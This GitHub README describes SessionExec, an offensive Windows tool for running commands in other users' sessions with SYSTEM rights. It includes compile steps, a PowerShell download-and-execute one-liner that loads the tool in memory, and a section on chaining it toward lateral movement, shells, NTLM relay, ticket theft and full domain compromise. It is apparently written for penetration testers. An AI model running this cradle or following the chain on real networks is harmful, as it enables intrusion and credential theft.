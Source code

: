# SessionExec

SessionExec allows you to execute specified commands in different user sessions on Windows systems, either targeting a specific session ID or all sessions, with the option to suppress command output.

The tool is inspired to the [EOP COM Session Moniker](https://bugs.chromium.org/p/project-zero/issues/detail?id=1021) exploit code, released a long time ago by James Forshaw.

SessionExec utilises Windows APIs to query session information and create processes within those sessions.

Compile SessionExec.cs running the following command from Build Tools for Visual Studio

```
csc /reference:System.Runtime.InteropServices.dll /reference:System.Runtime.InteropServices.RuntimeInformation.dll SessionExec.cs /out:SessionExec.exe
```

Or you can use `Invoke-SessionExec.ps1` which is the same script, but runs in memory using Reflective Load method.

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/SessionExec/main/Invoke-SessionExec.ps1')
```

NOTE: SYSTEM privileges are required to run this tool successfully. To elevate from Administrator to SYSTEM, use [Invoke-RunAsSystem](https://github.com/Leo4j/Invoke-RunAsSystem)

## Usage

```
SessionExec.exe <SessionID|All> <Command> [/NoOutput]
```
```
Invoke-SessionExec <SessionID|All> <Command> [/NoOutput]
```

Check what sessions are available using the `quser` command. Then run a command on a specific session, or `All` Sessions.

![image](https://github.com/user-attachments/assets/d9026750-2441-4462-a2d3-2d7179964045)

## Thoughts

If you find yourself being a local admin on one or multiple machines within a network, and there are user sessions on those targets, you could use [SessionExec](https://github.com/Leo4j/SessionExec) and [Find-LocalAdminAccess](https://github.com/Leo4j/Find-LocalAdminAccess) together to check if any of those users have local admin access over other machines in the network.

If they do, you could then repeat the process for users having a session on those machines. This chain of actions could theoretically lead to a full domain compromise.

Additionally, you could obtain shells back using [Amnesiac](https://github.com/Leo4j/Amnesiac), capture NTLMv2 hashes and relay them, grab TGTs, and much much more, all in an automated fashion.

Together with [The-Viper-One](https://github.com/The-Viper-One), we are working on implementing this concept into [PsMapExec](https://github.com/The-Viper-One/PsMapExec). 

For now, here is a Proof of Concept (PoC):

![SessionExec](https://github.com/user-attachments/assets/b4e29e6f-b4e5-48c9-bd0c-fe44def7d74c)
